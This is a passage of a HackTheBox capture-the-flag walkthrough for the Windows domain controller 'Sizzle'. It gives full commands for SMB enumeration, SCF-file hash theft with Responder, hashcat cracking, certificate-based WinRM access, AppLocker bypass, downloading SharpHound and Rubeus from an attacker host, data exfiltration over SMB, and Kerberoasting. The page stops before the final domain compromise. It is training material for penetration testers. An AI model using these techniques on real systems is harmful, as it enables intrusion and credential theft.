---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---

# Sizzle

## Walkthrough Summary

[Sizzle](https://app.hackthebox.com/machines/169) is an <mark style="color:red;">insane-rated</mark> box which&#x20;

<table><thead><tr><th width="86" align="right">Step</th><th width="189">Action</th><th width="138">Tool</th><th width="335">Achieved</th></tr></thead><tbody><tr><td align="right">1</td><td>FTP Enumeration</td><td><a href="https://github.com/rapid7/metasploit-framework">Metasploit</a></td><td>Initial Foothold</td></tr><tr><td align="right">2</td><td>System Enumeration</td><td><a href="https://encyclopedia.kaspersky.com/glossary/lotl-living-off-the-land/">LOTL</a>*</td><td>Lateral Movement</td></tr><tr><td align="right">3</td><td>Domain Enumeration</td><td><a href="https://www.libreoffice.org/">LibreOffice</a></td><td>Privilege Escalation Path </td></tr><tr><td align="right">4</td><td>Password Change</td><td><a href="https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1">PowerView</a></td><td>Step 1/2 of Privesc</td></tr><tr><td align="right">5</td><td>Group Membership</td><td><a href="https://encyclopedia.kaspersky.com/glossary/lotl-living-off-the-land/">LOTL</a>*</td><td>Step 2/2 of Privesc</td></tr><tr><td align="right">6</td><td>System Enumeration</td><td><a href="https://encyclopedia.kaspersky.com/glossary/lotl-living-off-the-land/">LOTL</a>*</td><td>Domain Compromise</td></tr></tbody></table>

\*_Living Off The Land_

## Searching for Clues 🔎&#x20;

Let's start with a Nmap port-scan.


```bash
$ sudo nmap 10.10.10.103 -T4 -open -p- -A

PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-syst:
|_  SYST: Windows_NT
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: Site doesn't have a title (text/html).
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: HTB.LOCAL, Site: Default-First-Site-Name)
|_ssl-date: 2024-03-28T16:43:31+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=sizzle.htb.local
| Not valid before: 2018-07-03T17:58:55
|_Not valid after:  2020-07-02T17:58:55
443/tcp   open  ssl/http      Microsoft IIS httpd 10.0
| tls-alpn:
|   h2
|_  http/1.1
| http-methods:
|_  Potentially risky methods: TRACE
|_ssl-date: 2024-03-28T16:43:31+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=sizzle.htb.local
| Not valid before: 2018-07-03T17:58:55
|_Not valid after:  2020-07-02T17:58:55
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Microsoft-IIS/10.0
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap
| ssl-cert: Subject: commonName=sizzle.htb.local
| Not valid before: 2018-07-03T17:58:55
|_Not valid after:  2020-07-02T17:58:55
|_ssl-date: 2024-03-28T16:43:31+00:00; 0s from scanner time.
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: HTB.LOCAL, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=sizzle.htb.local
| Not valid before: 2018-07-03T17:58:55
|_Not valid after:  2020-07-02T17:58:55
|_ssl-date: 2024-03-28T16:43:31+00:00; -1s from scanner time.
3269/tcp  open  ssl/ldap
|_ssl-date: 2024-03-28T16:43:31+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=sizzle.htb.local
| Not valid before: 2018-07-03T17:58:55
|_Not valid after:  2020-07-02T17:58:55
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
5986/tcp  open  ssl/http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
| ssl-cert: Subject: commonName=sizzle.HTB.LOCAL
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:sizzle.HTB.LOCAL
| Not valid before: 2018-07-02T20:26:23
|_Not valid after:  2019-07-02T20:26:23
| tls-alpn:
|   h2
|_  http/1.1
|_http-title: Not Found
|_ssl-date: 2024-03-28T16:43:31+00:00; 0s from scanner time.
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  msrpc         Microsoft Windows RPC
49682/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49683/tcp open  msrpc         Microsoft Windows RPC
49684/tcp open  msrpc         Microsoft Windows RPC
49691/tcp open  msrpc         Microsoft Windows RPC
49692/tcp open  msrpc         Microsoft Windows RPC
49704/tcp open  msrpc         Microsoft Windows RPC
49721/tcp open  msrpc         Microsoft Windows RPC

Running (JUST GUESSING): Microsoft Windows 2016 (88%)
OS CPE: cpe:/o:microsoft:windows_server_2016

Service Info: Host: SIZZLE; OS: Windows; CPE: cpe:/o:microsoft:windows
```


There are some interesting things to note down:

1. The Fully Qualified Domain Name (FQDN) is `SIZZLE.HTB.LOCAL`.
2. The FTP service is available and allows anonymous logins, but it seems empty.
3. Ports `5985` and `5986` are available which are associated with WinRM.
4. The web server ports, `80` and `443` are also available.
5. There are services such as SMB, DNS, and LDAP which suggests that this host is a Domain Controller (DC).

Before proceeding further, we should add the names found above in our local DNS file.

```bash
# adding hostname, domain, and FQDN to local DNS file
grep reel /etc/hosts
10.10.10.103     sizzle htb.local sizzle.htb.local
```

### HTTP

The homepage on port `80` shows some delicious bacons sizzling 🥓 (Figure 1) !

<div align="left">

<figure><figcaption><p>Figure 1: Sizzling bacons!</p></figcaption></figure>

</div>

[Fuzzing](../../tools/tools/web/fuff.md) for directories, subdomains, and vhosts returns nothing. The same goes for [checking the metadata](../../tools/tools/images.md) of the GIF image. Not much else to explore here for now!

### SMB

Let's see if the SMB server proves more fruiful 🍌 (Figure 2).

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong># enumerating shares
</strong><strong>nxc smb sizzle.htb.local -u 'guest' -p '' --shares
</strong></code></pre>

<figure><figcaption><p>Figure 2: Listing available shares.</p></figcaption></figure>

&#x20;There are three non-default shares: `CertEnroll`, `Operations`, `Department Shares`. We can only `READ` the latter, so let's see what's inside (Figure 3).


```bash
# spidering the share
$ nxc smb sizzle.htb.local -u 'guest' -p '' --spider 'Department Shares' --regex . --depth 0
```


<figure><figcaption><p>Figure 3: Spidering the 'Department Shares' share.</p></figcaption></figure>

A lot of different directories are there, so let's download them (Figure 4) and inspect them locally (Figure 5).


```bash
# downloading the share content
nxc smb sizzle.htb.local -u 'guest' -p '' -M spider_plus -o DOWNLOAD_FLAG=True MAX_FILE_SIZE=420000 OUTPUT_FOLDER=SMB/
```


<figure><figcaption><p>Figure 4: Downloading the 'Department Shares' share.</p></figcaption></figure>

<figure><figcaption><p>Figure 5: Listing the content of the ZZ_ARCHIVE directory.</p></figcaption></figure>

All files seems broken; noone can actually open 😤 ! This share also contains a `Users` directory which lists this machine's usernames (Figure 6). We can use this information to create a username list for potential attacks by writing the output into a file and then clean it appropriately (Figure 7).




```bash
nxc smb 10.10.10.103 -u 'guest' -p '' --spider 'Department Shares' --spider-folder Users --regex .
```





```bash
# write output to a file
nxc smb 10.10.10.103 -u 'guest' -p '' --spider 'Department Shares' --spider-folder Users --regex . > nxc_users.lst
# clean the first few and last junk lines manually
nano nxc_users.lst
# extract the usernames
cat nxc_users.lst | cut -d'U' -f2 | cut -d'/' -f2 | cut -d' ' -f1 | sort | uniq > users.lst
# clean the junk lines manually
nano users.lst
# check the final list
cat users.lst
```




<figure><figcaption><p>Figure 6: Spidering the User's directory.</p></figcaption></figure>

<figure><figcaption><p>Figure 7: Creating a clean username list.</p></figcaption></figure>

Unfortunately, attempting an [ASREPRoasting](../../tl-dr/tl-dr/active-directory/asreproasting.md) attack using the list proves unsuccesful :disappointed\_relieved: .&#x20;

### LDAP

The web and SMB servers have given us nothing so far. Our options are narrowing down, so LDAP might be the way in🤞...sadly, LDAP requires authenticatino (Figure 8) !

```bash
# enumrerating users via ldap
nxc ldap sizzle.htb.local -p '' -u '' --users
```

<figure><figcaption><p>Figure 8: Trying to enumerate through LDAP.</p></figcaption></figure>

## Stealing Hashes :secret:

We have enumerated almost everything, and we have nothing :thinking: ! There is one last thing we could enumerate: **writable share directories**. If we manage to find one, we can upload a malicious file and in case a user opens it, we can steal their hash. To perform this attack:

1. We need to mount the whole share (Figure 9).
2. Enumerate all drectories one by one for one that gives `Everyone` `FULL` access. We can do this using a `for` loop and `smbcacls` while moving from directory to directory (Figure 10).



```bash
# mounting the share
sudo mount -t cifs '//10.10.10.103/Department Shares' './SMB/Department Shares'
# listing the files within the share
ls SMB/Department\ Shares/
```




```bash
for i in $(ls); do echo $i; smbcacls -N '//10.10.10.103/Department Shares' $i ; done
```




<figure><figcaption><p>Figure 9: Mounting the share and listing its contents.</p></figcaption></figure>

<figure><figcaption><p>Figure 10: Enumerating directory ACLs.</p></figcaption></figure>

After enumerating all directories, we find out that `Everyone` has `FULL` access to `Users/Public` 🎉 (Figure 11) !

<figure><figcaption><p>Figure 11: Everyone has FULL access to the Public folder!</p></figcaption></figure>

Following the steps found [here](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/) (Figure 12), we get `amanda`'s hash (Figure 13) !

```bash
# creating an scf file
nano important.scf
# copying the file to the writable directory
sudo cp important.scf SMB/Users/Public/
# firing up responder
sudo responder -I tun0
```

<figure><figcaption><p>Figure 12: Creating an SCF file and uploading it to the writable directory.</p></figcaption></figure>

<figure><figcaption><p>Figure 13: Amanda opens the file and we get her hash back!</p></figcaption></figure>

We can now copy the hash to a file and use `hashcat` to crack it :unlock: (Figure 14).

```bash
# cracking the hash
hashcat amanda_hash /usr/share/wordlists/rockyou.txt
# showing the result
hashcat amanda_hash --show
```

<figure><figcaption><p>Figure 14: Cracking the hash with Hashcat.</p></figcaption></figure>

Let's validate Amanda's credentials and check if she has WinRM access (Figure 15).

```bash
# writing the password to a file
echo "Ashare1972" > amanda_pass
# validating credentials
nxc smb 10.10.10.103 -u amanda -p amanda_pass
# checking for WinRM access
nxc winrm 10.10.10.103 -u amanda -p amanda_pass
```

<figure><figcaption><p>Figure 15: Validating Amanda's credentials and checking remote access.</p></figcaption></figure>

## Certificate Break In

We can use Amanda's credentials to re-enumerate the SMB server (Figure 16).

```bash
nxc smb 10.10.10.103 -u amanda -p amanda_pass --shares --users
```

<figure><figcaption><p>Figure 16: Enumerating SMB users and groups with a valid domain user.</p></figcaption></figure>

Amanda has `READ` access to the `CertEnroll` share and we can also see some users that are not currently in our username list. Let's add those users in our existing list (Figure 17).&#x20;

```bash
# write the output to a file
nxc ldap 10.10.10.103 -u amanda -p amanda_pass --users > ldap_users
# clean the junk lines
nano ldap_users
# append users in the current list
awk -F' ' '{print $5}' ldap_users >> users.lst
# remove duplicates and write the output to a new file
cat users.lst | sort | uniq > domain_users
```

<div align="center" data-full-width="false">

<figure><figcaption><p>Figure 17: Creating a new domain username list.</p></figcaption></figure>

</div>

The `CertEnroll` share is a common DC share that has a **Certification Authority (CA) Web Enrollment role service**. As mentioned [here](https://learn.microsoft.com/en-us/windows-server/identity/ad-cs/certificate-authority-web-enrollment),  this service provides web pages, such as `certsrv`, that allow users to perform certificate tasks. Checking if a `/certsrv` exists in the webserver and using Amanda's credentials we are able to login (Figure 18)!

<figure><figcaption><p>Figure 18: Logging into the Active Directory Certificate Services directory.</p></figcaption></figure>

We know that `amanda` does not have WinRM access using her password, but we can also use WinRM with a pair of public and private key certificates :key2: . By following the process outlined [here](https://revocent.com/how-to-create-x-509-certificates-on-linux/?source=post\_page-----90f747882061--------------------------------), we can generate the required files (Figure 19).&#x20;

```bash
# create a key pair
openssl genrsa -out amanda.key 4096
# create the certificate signing request
openssl req -new -key amanda.key -out amanda.csr
```

<figure><figcaption><p>Figure 19: Creating a Certificate Singning Request.</p></figcaption></figure>

Next, we can get a certificate by submitting our CSR to the CA by:

1. Visiting the `/certsrv` directory -> Request a Certificate -> advanced certificate request
2. Pasting the content of the `amanda.csr` file to the Saved Request field (Figure 20)
3. Clicking Submit -> Download certificate (Base 64 encoded).

<figure><figcaption><p>Figure 20: Submitting a certificate request.</p></figcaption></figure>

We now have both the files we need for WinRM access: `amanda.cer` (the `certnew.cer` renamed) and `amanda.key` (Figure 21).

```bash
# using WinRM with certificates
evil-winrm -u amanda -c amanda.cer -k amanda.key -i 10.10.10.103 -S
```

<figure><figcaption><p>Figure 21: Using WinRM with the public and private key certificate.</p></figcaption></figure>

## Domain Enumeration

Now that we got our foot on the door🚪, we can try to collect and analyze all the available domain information. The `upload` function of `evil-winrm` does not work for some reason, so we can transfer `SharpHound.exe` via an HTTP server and run it...or not (Figure 22) ?


For BloodHound Community Edition **download the latest compatible SharpHound ingestor**!




```bash
# starting an HTTP server from the directory that SharpHound.exe resides
python3 -m http.server 80
```



```powershell
# downloading the executable from the target host
IWR -Uri http://10.10.14.4/SharpHound.exe -OutFile sh.exe
# running the executable
.\sh.exe -c all
```



<figure><figcaption><p>Figure 22: SharpHound is blocked by the host's group policy.</p></figcaption></figure>

It seems that we can't execute files due to AppLocker's group policies. Luckily, there are many default writable paths, such as `C:\Windows\Registration\CRMLog`, that we can write to and execute a file from (paths listed [here](https://github.com/api0cradle/UltimateAppLockerByPassList/blob/master/Generic-AppLockerbypasses.md#placing-files-in-writeable-paths)) (Figure 23).

```powershell
# move to a writeable directory
cd C:\Windows\Registration\CRMLog
# copy the executable
copy ~/sh.exe .
# execute the file
.\sh.exe -c all
# list the files
ls
```

<figure><figcaption><p>Figure 23: Moving to a writeable folder in order to execute the binary.</p></figcaption></figure>

Next, we need to transfer the `zip` file to our attack host. We will do that using SMB (Figure 24).



```bash
# start an SMB server with authentication on the attack host
impacket-smbserver -smb2support share . -username test -password test
```



<pre class="language-powershell"><code class="lang-powershell"><strong># connect to the SMB server from target 
</strong><strong>net use x: \\10.10.14.4\share /USER:test test
</strong></code></pre>



```powershell
# transfer the file to the SMB server
copy 20240329053814_BloodHound.zip x:\
```



<figure><figcaption><p>Figure 24: Connecting to the SMB server and copying the file over.</p></figcaption></figure>

By uploading and analyzing the domain data into [BloodHound](../../tools/tools/active-directory/bloodhound.md), **a path to domain compromise is** **revealed:**

1. The account `mrlky` is susceptible to [Kerberoasting](../../tl-dr/tl-dr/active-directory/kerberoasting.md) (Figure 25).
2. The account `mrlky` has [DCSync](../../tl-dr/tl-dr/active-directory/dcsync.md) rights over `HTB.LOCAL` (Figure 26).

<figure><figcaption><p>Figure 25: BloodHound identifies that the account mrlky is kerberoastable.</p></figcaption></figure>

<figure><figcaption><p>Figure 26: BloodHound shows us that the account mrlky has DCSync rights over the domain.</p></figcaption></figure>

To [Kerberoast](../../tl-dr/tl-dr/active-directory/kerberoasting.md) `mrlky` we need to transfer [Rubeus](../../tools/tools/active-directory/rubeus.md) to the target and execute it from a directory that does not interfere with the AppLocker group policy, such as `c:\windows\temp` (Figure 27).



```bash
# starting an HTTP server from the directory that Rubeus.exe resides
python3 -m http.server 80
```




```bash
# downloading the executable from the target host
IWR -Uri http://10.10.14.4/Rubeus.exe -OutFile rb.exe
# running the executable
.\Rubeus.exe kerberoast /creduser:htb.local\amanda /credpassword:Ashare1972 /user:mrlky /outfile:hash.txt /format:hashcat /nowrap
```




<figure><figcaption><p>Figure 27: Transferring Rubeus and kerberoasting mrlky.</p></figcaption></figure>

Next, we can copy the hash over to our attack host and let Hashcat work its magic (Figure 28).

```bash
# using hashcat to crack the hash
hashcat mrlky_hash /usr/share/wordlists/rockyou.txt
# seeing the results
hashcat mrlky_hash --show
```

